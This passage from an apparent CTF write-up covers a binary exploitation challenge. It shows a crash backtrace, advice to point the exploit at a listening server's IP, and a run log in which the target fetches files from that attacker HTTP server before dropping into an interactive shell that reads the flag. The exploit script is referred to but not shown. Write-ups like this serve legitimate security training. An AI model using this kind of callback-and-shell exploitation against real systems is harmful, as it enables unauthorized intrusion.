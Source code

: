 ```
#0  0x00007f0686c3f21b in ?? ()
#1  <signal handler called>
#2  0x0000000000642e0e in g_words ()
#3  0x000000000044344e in count ()
#4  0x0000000000443f7f in main ()
```

Notice that `0x642e0e`? Effing fantastic!

Writing an actual exploit from here should not be too difficult.  See `doit.py`
for the details.  Note that you should put in the IP, not hostname, of your
listening server, otherwise you may get into trouble with `libresolv.so` as
mentioned above.

```
$ python doit.py
[*] '/home/user/words.elf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
[+] Opening connection to xoxo.hack.fe-ctf.dk on port 1337: Done
x.x.x.x - - [20/Nov/2022 17:52:53] "GET a HTTP/1.1" 200 -
x.x.x.x - - [20/Nov/2022 17:52:55] "GET b HTTP/1.1" 200 -
x.x.x.x - - [20/Nov/2022 17:52:57] "GET c HTTP/1.1" 200 -
[*] Switching to interactive mode
$ cat flag
flag{a good^W^Wan idea taken to its natural conlusion}
$
```
